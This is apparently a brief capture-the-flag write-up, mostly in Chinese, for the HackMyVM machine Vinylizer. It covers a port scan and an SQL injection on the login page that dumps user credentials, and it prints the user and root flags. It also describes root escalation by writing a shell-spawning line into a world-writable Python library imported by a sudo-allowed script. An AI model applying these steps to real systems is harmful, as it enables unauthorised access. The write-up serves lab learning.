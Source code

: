 # Vinylizer

2025.03.26 https://hackmyvm.eu/machines/machine.php?vm=Vinylizer

[video]()

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

http://192.168.5.39/login.php 登陆存在 sql 注入， vinyl_marketplace 中的 users 表中有登陆凭据：

```
+----+-----------+----------------------------------+----------------+
| 1  | shopadmin | 9432522ed1a8fca612b11c3980a031f6 | 0              |
| 2  | lana      | password123                      | 0              |
+----+-----------+----------------------------------+----------------+
```

找到 shopamdin 的明文密码 addicted2vinyl 可以用这个用户登陆 ssh。

拿到了 user flag:

```
shopadmin@vinylizer:~$ cat user.txt
I_L0V3_V1NYL5
```

sudo -l 显示 (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/vinylizer.py

发现脚本中引用的一个库对全体用户有修改权限 /usr/lib/python3.10/random.py 直接将 `import os; os.system("/bin/bash")` 写入，然后再执行 sudo，拿到 root 权限。

```
root@vinylizer:~# cat root.txt
4UD10PH1L3
```
